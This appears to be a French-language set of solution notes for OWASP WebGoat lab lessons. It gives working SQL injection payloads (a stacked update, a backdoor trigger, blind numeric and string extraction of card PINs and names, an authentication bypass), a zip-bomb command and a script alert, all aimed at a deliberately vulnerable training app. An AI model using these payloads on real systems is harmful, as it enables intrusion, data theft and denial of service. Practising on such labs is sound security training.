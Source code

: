 ### Database Backdoors
mettre dans User ID: 101; update employee set salary=10000
Stage2: CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com'WHERE userid = NEW.userid

* Error generating org.owasp.webgoat.lessons.BackDoors `<script>alert('ha ha ha')</script>`


### Blind Numeric SQL Injection
en utilisant ce code et jouant sur l'opérateur + petit ou + grand on peut savoir si un numéro est valid (ou dans le vrai) ou non
(le jeu du "trouver un chiffre entre 1 et 100")
101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') > 10000 );Invalid
101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') < 1000 );Valid
101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') < 500 );Invalid
.
.
.
101 AND ((SELECT pin FROM pins WHERE cc_number='1111222233334444') = 2364 ); valid

### Blind String SQL Injection
Même chose que l'exercice précédent avec des lettres
`101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 1, 1) <= 'J' );`

```
101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 2, 1) <= 'i' );
101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 3, 1) <= 'i' );
101 AND (SUBSTRING((SELECT name FROM pins WHERE cc_number='4321432143214321'), 4, 1) <= 'l' );
```

```SELECT name FROM pins WHERE cc_number='4321432143214321'), 4, 1) <= 'l' );
An error occurred, please try again.
Wrong data type: java.lang.NumberFormatException: For input string: "Jill"
```

### Denial of Service
#### Zip Bomb
dd if=/dev/zero bs=1024 count=10000 | zip zipbomb.zip
Remplacez count par le nombre de Ko que vous souhaitez compresser. L'exemple ci-dessus crée une bombe zip 10MiB

##### Denial of service from multiple logins
Mettre ' or '1' = '1 dans le champ du mot de passe
ensuite se logger avec les 3 premiers users (???)

### Insecure Login
Intercepter le formulaire avec burpsuite
le mot de passe: sniffy

Stage2
**For this lesson you need to have a server client setup. Please refer to theTomcat Configuration in the Introduction section.**
